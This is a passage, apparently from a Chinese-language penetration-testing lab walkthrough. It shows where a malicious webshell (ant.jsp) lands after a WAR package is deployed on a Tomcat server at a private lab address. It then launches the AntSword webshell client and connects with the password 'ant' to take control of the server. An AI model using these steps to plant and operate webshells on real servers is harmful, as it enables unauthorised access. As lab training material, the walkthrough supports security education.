 ![08.gif](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=da9b67e1-80c7-4d70-a3ee-be6cf21741a2.gif)

war包部署后会在Tomcat的WEB根目录创建解压生成一个ant文件夹，war包中的恶意木马`ant.jsp`在ant文件夹下，因此我们上传的WebShell地址为：

```
http://10.1.1.121:8080/ant/ant.jsp

```

#### 3.3 获取并访问Webshell

启动`Webshell`工具 中国蚁剑 （antsword）

```
cd /root/Desktop/antsword/
./AntSword

```

添加数据，输入`URL`地址：http://10.1.1.121:8080/ant/ant.jsp ，密码：ant，保存即可得到Tomcat服务器的访问权限。
